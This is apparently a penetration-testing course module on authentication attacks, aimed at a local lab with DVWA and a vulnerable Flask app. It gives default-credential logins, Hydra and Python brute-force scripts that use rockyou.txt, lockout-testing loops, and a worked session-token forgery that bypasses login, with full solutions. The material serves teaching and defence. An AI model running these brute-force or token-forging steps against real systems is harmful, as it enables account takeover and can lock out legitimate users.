

# 05-5 · Authentication Attacks

> **Level:** Beginner · **Prerequisites:** [05-4 Cross-site scripting](04_cross_site_scripting_xss.md)
> **Time:** ~1.5 hours · **Verified:** 2026-06-25 (lab targets)

> ⚠️ **LEGAL REMINDER:** Brute-force and credential-stuffing attacks against real systems are illegal. They can constitute denial of service if they cause lockouts at scale. All exercises below target the local lab (10.0.0.0/24) only.

---

## Why this matters

Authentication is the lock on the front door. When it's weak or misconfigured, every other security control is irrelevant — an attacker walks right in. The 2024 RockYou2024 leak contained 10 billion plaintext passwords; attackers cross-reference these against any target whose hashes they can obtain.

---

## Authentication attack taxonomy



---

## Default credentials

Always try these first — they cost nothing and succeed surprisingly often:

| System | Common defaults |
|---|---|
| DVWA | admin / password |
| phpMyAdmin | root / (empty) |
| Tomcat Manager | tomcat / tomcat, admin / admin |
| Jenkins | admin / admin |
| Routers | admin / admin, admin / (empty) |
| Printers | admin / (empty) |

```bash
# Try default creds on DVWA
curl -s -X POST http://localhost:8080/login.php \
  -d "username=admin&password=password&Login=Login" \
  -c /tmp/dvwa_cookies.txt | grep -i "welcome\|invalid\|location"

# Try default creds on vuln-flask
curl -s -X POST http://localhost:5001/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin"}'
```

---

## Hydra: automated credential testing

Hydra is a parallelised login cracker. From inside the attacker container:

```bash
docker exec -it attacker-1 bash
```

### Hydra against vuln-flask (JSON endpoint)

```bash
# Create a password wordlist
cat > /shared/passwords.txt << 'EOF'
admin
password
123456
admin123
alice2024
bob2024
secret
letmein
qwerty
password1
EOF

# Brute-force admin user
hydra -l admin -P /shared/passwords.txt \
  10.0.0.30 http-post-form \
  "/login:username=^USER^&password=^PASS^:F=Invalid credentials" \
  -t 4 -V
```

Wait — vuln-flask uses JSON, not a form. Use the `http-post-form` module with content-type header:

```bash
# For JSON endpoints, use the http-post module differently
hydra -l admin -P /shared/passwords.txt \
  -s 5000 10.0.0.30 \
  http-post-form \
  "/login:{\"username\":\"^USER^\",\"password\":\"^PASS^\"}:F=Invalid:H=Content-Type: application/json" \
  -V -t 4
```

Or use a Python brute-forcer (cleaner for JSON APIs):

```python
#!/usr/bin/env python3
# /shared/brute.py
import requests, itertools

TARGET = "http://10.0.0.30:5000/login"
USERS = ["admin", "alice", "bob"]
PASSWORDS = open("/usr/share/wordlists/rockyou.txt", errors="replace").read().splitlines()[:1000]

for user in USERS:
    for pw in PASSWORDS:
        r = requests.post(TARGET, json={"username": user, "password": pw}, timeout=3)
        if "Login successful" in r.text:
            print(f"[FOUND] {user}:{pw}")
            break
    else:
        print(f"[MISS]  {user}: not found in first 1000")
```

```bash
python3 /shared/brute.py
```

---

## Hydra against DVWA (form-based)

DVWA has a standard HTML form login at `/login.php`. Hydra's `http-post-form` module handles it:

```bash
hydra -l admin -P /shared/passwords.txt \
  10.0.0.20 http-post-form \
  "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" \
  -V -t 4
```

Output when found:
```
[80][http-post-form] host: 10.0.0.20   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```

---

## Defences and how to spot missing ones

| Defence | What it does | How to test absence |
|---|---|---|
| Account lockout | Lock after N failures | Send 10+ wrong passwords; does it still accept? |
| Rate limiting | Slow down rapid requests | Send 50 requests/second; do you get 429 Too Many Requests? |
| CAPTCHA | Human verification | Is there a CAPTCHA on the login form? |
| MFA | Second factor required | Can you log in with password alone? |
| Credential stuffing protection | Detect known-compromised passwords | Not detectable from outside |

Testing vuln-flask:
```bash
# Send 20 wrong password attempts — no lockout
for i in $(seq 1 20); do
  curl -s -X POST http://localhost:5001/login \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"admin\",\"password\":\"wrong${i}\"}" | python3 -c "import sys,json; d=json.load(sys.stdin); print(d.get('error',''))"
done
# All return "Invalid credentials" — no lockout, no rate limit
```

---

## Session token analysis

After logging in, examine the session token for predictability:

```bash
# Log in 3 times, capture session tokens
for i in 1 2 3; do
  curl -s -X POST http://localhost:5001/login \
    -H "Content-Type: application/json" \
    -d '{"username":"alice","password":"alice2024"}' \
    -c /tmp/cookies_${i}.txt > /dev/null
  cat /tmp/cookies_${i}.txt | grep session | awk '{print $7}'
done
```

Are the tokens the same every time? Yes — because vuln-flask uses `MD5(username)`. This is **deterministic session tokens** — a critical A07 finding.

---

## Exercises

1. **Find the lockout threshold.** Send repeated failed logins to vuln-flask and DVWA. What happens after 5, 10, 50 attempts? Document as a finding.

<details>
<summary>Solution</summary>

```bash
for i in $(seq 1 50); do
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" -X POST http://localhost:5001/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"wrongpass"}')
  echo "Attempt $i: HTTP $STATUS"
done
```

If all return 200 (with "Invalid credentials" body), there is no lockout or rate limiting. Finding: "OWASP A07 — No brute-force protection on /login. An attacker can attempt unlimited passwords without restriction."

</details>

2. **Predict and use alice's session.** Log in as alice once. Use python3 to compute `MD5("alice")`. Manually construct a cookie header with that value and access `/dashboard` without re-authenticating.

<details>
<summary>Solution</summary>

```bash
# Compute the token
python3 -c "import hashlib; print(hashlib.md5(b'alice').hexdigest())"
# 6384e2b2184bcbf58eccf10ca7a6563c

# Use it as a cookie
curl -b "session=6384e2b2184bcbf58eccf10ca7a6563c" http://localhost:5001/dashboard
# Returns alice's dashboard — authentication bypassed by predicting the session token
```

</details>

3. **Use rockyou against DVWA.** Run hydra against DVWA's login with the rockyou.txt wordlist (limit to the first 200 lines with `head -200`). Find the admin password.

<details>
<summary>Solution</summary>

```bash
head -200 /usr/share/wordlists/rockyou.txt > /tmp/mini_rockyou.txt

hydra -l admin -P /tmp/mini_rockyou.txt \
  10.0.0.20 http-post-form \
  "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" \
  -V -t 4
# [80][http-post-form] host: 10.0.0.20   login: admin   password: password
```

</details>

---

## Recap & next

- ✅ Default creds: always try first — costs nothing, often works
- ✅ Hydra: parallelised brute-force for web forms and JSON APIs
- ✅ No lockout + no rate limiting = OWASP A07 finding
- ✅ Predictable session tokens = deterministic auth bypass without knowing the password
- ✅ Defences: lockout, rate limiting, CAPTCHA, MFA, HTTPS only

**→ Next: [06 IDOR & access control](06_idor_and_access_control.md)**
